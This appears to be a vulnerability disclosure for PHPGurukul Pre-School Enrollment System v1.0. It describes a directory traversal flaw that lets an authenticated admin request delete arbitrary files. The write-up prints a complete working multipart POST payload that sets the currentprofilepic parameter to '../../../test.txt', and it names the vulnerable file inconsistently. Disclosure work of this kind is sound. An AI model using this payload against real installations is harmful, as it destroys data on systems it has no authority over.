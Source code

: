 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-3(update-class-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/1.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page, classes-manage-Edit Class-Update Class Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/4.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/5.png)

   Transformed into attack payload    

    
    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7 HTTP/1.1
    Host: localhost
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywWObpfrtssMBATrx
    Accept-Language: zh-CN,zh;q=0.9
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Origin: http://localhost
    sec-ch-ua-mobile: ?0
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br, zstd
    Content-Length: 5637583

    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../test.txt
    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="teacherpic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundarywWObpfrtssMBATrx--

   Create test.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/7.png)

   Send payload, test.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/8.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
